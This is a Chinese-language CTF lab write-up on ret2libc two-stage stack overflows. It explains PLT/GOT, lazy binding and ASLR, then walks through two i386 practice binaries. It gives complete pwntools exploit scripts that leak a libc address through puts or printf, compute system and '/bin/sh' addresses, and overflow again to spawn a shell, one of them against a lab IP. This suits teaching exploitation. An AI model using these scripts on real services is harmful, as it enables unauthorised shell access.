reb2libc二次溢出练习¶
ret2libc攻击的核心原理：通过泄露一个地址，计算出整个libc的基址，从而调用任意libc函数！
PLT/GOT¶
什么是PLT和GOT¶
PLT (Procedure Linkage Table)：程序关联表
-
是代码段中的一段跳转表
-
每个外部函数都有一个对应的PLT条目
-
它是函数的"代理入口"，不是真实地址
GOT (Global Offset Table)：全局偏移表
-
是数据段中的地址表
-
存储外部函数的真实内存地址
-
动态链接器会填充这些地址
为什么要泄露 puts@got 而不是 puts@plt
puts@plt 是固定偏移（在二进制文件中），每次运行都一样
puts@got 存储的是真实地址，ASLR导致每次运行不同
ASLR (Address Space Layout Randomization)
没有ASLR时：
libc基址 = 0xf7d00000 (固定)
system地址 = 0xf7d4a000 (固定)
有ASLR时：
第1次运行：libc基址 = 0xf7c00000
第2次运行：libc基址 = 0xf7d00000
第3次运行：libc基址 = 0xf7e00000
system地址也随之变化
ELF — PLT / GOT 动态链接过程¶
printf@PLT → printf@GOT → ld-linux → libc
流程图
printf@PLT 桩代码
PLT[0] 通用解析桩
push *(0x804a004) ; GOT[1] = link_map //压入 link_map（所有已加载 .so 的链表头
jmp *(0x804a008) ; GOT[2] = _dl_runtime_resolve //jmp 进入动态链接器的 _dl_runtime_resolve 函数，开始运行时符号查找流程
在libc.so中查找的汇编
链接器根据 reloc_idx 查 .rel.plt 表，提取符号名 "printf"，遍历 link_map 中各已加载共享库的动态符号表，在 libc.so 中找到 printf 的运行时地址。
_dl_runtime_resolve 内部
1. 读 reloc_idx → 查 .rel.plt[0]
2. 取符号名 → "printf"
3. 遍历 link_map → 搜各 .so
4. libc.so .dynsym 命中 → 0xf7e3d5f0
链接器回写 GOT
链接器将 printf 真实地址写入 GOT[printf]。从此 GOT 永久记录真实地址——这就是「懒绑定」完成的标志，之后所有调用都将跳过解析流程。
懒绑定（lazy binding）完整步骤
① main() 执行 call printf
|
② printf@PLT: jmp *GOT[printf]
|
③ GOT 未解析 → 落回 PLT+6
|
④ push reloc_idx + jmp PLT[0]
|
⑤ PLT[0] → _dl_runtime_resolve
|
⑥ 链接器在 libc.so 中查找 printf
|
⑦ 链接器将真实地址写入 GOT
|
⑧ 真实 printf 执行
|
⑨ 第2次调用：快速路径直达 libc
GOT 已有真实地址后，PLT 的 jmp *GOT 直飞 libc.so 中的 printf，完全跳过动态链接器。这就是 lazy binding 的效率：只有第一次慢，此后每次仅多一次内存间接跳转开销。
ret2libc3¶
静态分析¶
checksec ret2libc3

栈不可执行 i386编译strings ret2libc3 | grep system

没有system函数strings ret2libc3 | grep /bin

没有/bin/sh字符串动态分析¶
info file

0x0804a040 - 0x0804a0e4 is .bssvmmap 0x0804a040

.bss可写x/100s 0x0804a040

选空位置作为bss_addr：0x804a048disass main

调用了gets函数存在溢出漏洞计算offset

cyclic -l daab

offset=112ROPgadget --binary ret2libc3 --only 'int'

没有int 80，无法直接调用execve利用思路¶
找出编译该程序使用的库
利用溢出漏洞泄露一个已加载函数的真实地址
计算基址link_base=真实地址-link('函数')
计算真实system=link.so(system)地址+link_base
二次溢出调用system函数
第一次溢出栈布局
查询需要的信息

main函数的地址0x08048618 puts@plt的地址0x08048460泄露真实puts地址
查找使用的库和system的真实地址
from pwn import *
from LibcSearcher import *
p= process('./ret2libc3')
elf=ELF('ret2libc3')
context.terminal=['tmux','splitw','-h']
context.log_level='debug'
offset1=112
put_plt_addr=elf.plt['puts']
put_got_addr=elf.got['puts']
main_addr=elf.symbols['main']
payload=b'A'*offset1+p32(put_plt_addr)+p32(main_addr)+p32(put_got_addr)
p.sendline(payload)
p.recvuntil(b'!?')
puts_real_addr=u32(p.recvn(4))
print('leak_real_puts_addr is:',hex(puts_real_addr))
libc=LibcSearcher('puts',puts_real_addr)
puts_offset=libc.dump('puts')
libc_base=puts_real_addr-puts_offset
system_offset=libc.dump('system')
system_addr=hex(libc_base+system_offset)
print('leak_real_system_addr is:',system_addr)
p.interactive()

计算二次溢出点
from pwn import *
from LibcSearcher import *
p= process('./ret2libc3')
elf=ELF('ret2libc3')
context.terminal=['tmux','splitw','-h']
context.log_level='debug'
offset1=112
put_plt_addr=elf.plt['puts']
put_got_addr=elf.got['puts']
main_addr=elf.symbols['main']
payload=b'A'*offset1+p32(put_plt_addr)+p32(main_addr)+p32(put_got_addr)
p.sendline(payload)
p.recvuntil(b'!?')
puts_real_addr=u32(p.recvn(4))
print('leak_real_puts_addr is:',hex(puts_real_addr))
libc=LibcSearcher('puts',puts_real_addr)
puts_offset=libc.dump('puts')
libc_base=puts_real_addr-puts_offset
system_offset=libc.dump('system')
system_addr=hex(libc_base+system_offset)
print('leak_real_system_addr is:',system_addr)
gdb.attach(p)
p.interactive()

offset2=104
PoC
from pwn import *
from LibcSearcher import *
p= process('./ret2libc3')
elf=ELF('ret2libc3')
context.terminal=['tmux','splitw','-h']
context.log_level='debug'
offset1=112
put_plt_addr=elf.plt['puts']
put_got_addr=elf.got['puts']
main_addr=elf.symbols['main']
payload=b'A'*offset1+p32(put_plt_addr)+p32(main_addr)+p32(put_got_addr)
p.sendline(payload)
p.recvuntil(b'!?')
puts_real_addr=u32(p.recvn(4))
print('leak_real_puts_addr is:',hex(puts_real_addr))
libc=LibcSearcher('puts',puts_real_addr)
libc_base=puts_real_addr-libc.dump('puts')
system_addr=libc_base+libc.dump('system')
bin_sh_addr=libc_base+libc.dump('str_bin_sh')
#gdb.attach(p)
offset2=104
exp=b'A'*offset2+p32(system_addr)+p32(bin_sh_addr)+p32(bin_sh_addr)
p.sendline(exp)
p.interactive()

ret2libc3new¶
静态分析¶
checksec ret2libc3new

动态分析¶
info func

disass vuln

有gets函数和printf函数可以利用offset

printf函数
函数签名printf(format, arg1);
需要传入两个参数



0x804c080 .bss栈布局
buf
|
| 108
|
ebp 4
|
ret ————> gets_plt_addr
|
gets_ret_addr ————> popret_addr
|
gets_arg ————> format_str_addr <———— pop_arg
|
popret_ret_addr ———— > printf_plt_addr
|
printf_ret ————> vuln_addr
|
printf_arg1 ————> format_str_addr
|
printf_arg2 ————> printf_got_addr
ROPgadget --binary ret2libc3new --only 'pop|ret'

0x08049022 : pop ebx ; retPoC
from pwn import *
from LibcSearcher import *
p=remote('172.16.30.199',32768)
elf=ELF('ret2libc3new')
offset=112
printf_plt_addr=elf.plt['printf']
printf_got_addr=elf.got['printf']
vuln_addr=elf.symbols['vuln']
format_str_addr=0x0804c080
gets_ret_addr=0x08049022
gets_plt_addr=elf.plt['gets']
payload=b'A'*offset+p32(gets_plt_addr)+p32(gets_ret_addr)+p32(format_str_addr)+p32(printf_plt_addr)+p32(vuln_addr)+p32(format_str_addr)+p32(printf_got_addr)
p.sendline(payload)
p.sendline(b"%.4s")
p.recvuntil(b'archived.\n')
leak_addr=u32(p.recvn(4))
print('leak_print_addr:',hex(leak_addr))
libc=LibcSearcher('printf',leak_addr)
libc_base=leak_addr-libc.dump('printf')
system_addr=libc_base+libc.dump('system')
print('system_addr:',hex(system_addr))
binsh_addr=libc_base+libc.dump('str_bin_sh')
offset2=112
exp=b'A'*offset2+p32(system_addr)+p32(binsh_addr)+p32(binsh_addr)
p.sendline(exp)
p.interactive()

leak_print_addr: 0xf7de6d30计算system地址

计算二次溢出点
手动gdb调试二次溢出就卡住崩溃
采用程序自动计算二次溢出点
offset2=cyclic(120)
p.sendline(offset2)
p.wait()
core=p.corefile
eip=core.eip
offset2=cyclic_find(eip)
printf(offset2)

flag
